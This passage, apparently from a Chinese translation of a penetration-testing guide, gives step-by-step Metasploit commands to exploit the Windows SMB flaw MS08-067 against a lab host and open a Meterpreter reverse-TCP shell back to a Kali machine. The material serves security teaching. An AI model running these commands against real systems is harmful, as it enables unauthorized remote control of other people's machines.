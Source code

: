 1.  要搜索我们的漏洞利用程序，请键入以下内容：

```
search ms08

```

以下是输出：

![检测易受攻击的主机](img/3183OS_05_12.jpg)

1.  输入所有这些命令：

+   `use exploit/windows/smb/ms08_067_netapi`:此命令设置 Metasploit Framework 使用利用`ms08_067_netapi`

+   `set RHOST 192.168.1.30`:此命令将远程主机设置为您正在利用的用户

+   `set PAYLOAD windows/meterpreter/reverse_tcp`:此命令将有效负载设置为`reverse_tcp`，以便在成功利用后我们可以连接回主机

+   `set LHOST 192.16``8.1.5`:此命令设置本地主机，即 Kali Linux 主机的 IP 地址

+   `exploit`:此命令实时启动利用程序，以便您可以看到详细信息的操作

1.  如果您想运行不同的有效负载，请使用以下命令：

```
show payloads

```

在下面的屏幕截图中，我们可以看到我们之前输入的命令的输出：
